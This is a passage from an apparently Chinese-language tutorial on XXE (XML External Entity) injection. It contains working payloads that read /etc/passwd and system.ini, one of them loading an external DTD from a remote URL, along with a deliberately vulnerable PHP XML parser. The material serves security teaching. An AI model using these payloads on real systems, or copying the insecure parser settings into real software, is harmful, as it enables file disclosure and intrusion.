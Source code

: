 #### 方式三：通过DTD外部实体声明引入外部DTD文档中的外部实体声明

```
<?xml version="1.0"?>
<!DOCTYPE Quan[
<!ENTITY f SYSTEM "https://blog.csdn.net/syy0201/Quan.dtd">
]>

<hhh>&f;<hhh>

#Quan.dtd的外部实体声明内容：
<!ENTITY f SYSTEM "file:///etc/passwd">
```

### 2.2 XXE的分类

XXE分成了三类，正常回显XXE、报错XXE和Blind XXE

#### 一、有回显XXE

**示例代码：**

**xml.php**

```
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

**payload:**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

![img](XXE.assets/modb_20211021_1802b186-3260-11ec-b086-fa163eb4f6be.png)
